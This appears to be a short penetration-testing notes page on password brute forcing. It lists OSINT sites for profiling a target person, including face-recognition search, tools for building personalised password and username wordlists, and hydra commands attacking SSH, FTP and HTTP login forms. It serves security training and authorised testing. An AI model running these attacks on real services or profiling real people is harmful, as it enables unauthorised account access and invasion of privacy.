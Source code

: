 ```yaml
---
description: >-
  After having success at username enumeration, an attacker is often just one
  step from the goal of bypassing authentication, and that step is the user’s
  password.
---
```


# Password Brute Forcing



### Personalized Word lists

To create a personalized word list for a username, we will need to collect information about them. When gathering information, use the following OSINT tools:

**OSINT Framework** - [https://osintframework.com/](https://osintframework.com/)

**Check Username** - [https://www.social-searcher.com/](https://www.social-searcher.com/)

**That's Them** - [https://thatsthem.com/](https://thatsthem.com/)

**Social Searcher** - [https://www.social-searcher.com/](https://www.social-searcher.com/)

**Reverse Email Search** - [https://epieos.com/](https://epieos.com/)

**Face Recognition From Image**  - [https://pimeyes.com/en](https://pimeyes.com/en)



### Generate Password Word list

Once we've gathered information about our target, we can use "Cupp" to create a personalized word list for use. [https://github.com/Mebus/cupp](https://github.com/Mebus/cupp)



### Generate Username Word list

We can use Username Anarchy to create a word list of possible usernames if we can't find the username for our target: [https://github.com/urbanadventurer/username-anarchy](https://github.com/urbanadventurer/username-anarchy)







### Service Authentication Brute Forcing:

We can use a variety of different tools to attack a login service.&#x20;

_**Attacking SSH:**_

```bash
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```

_**Attacking FTP:**_

```bash
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```

_**Attacking HTTP:**_

```bash
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```
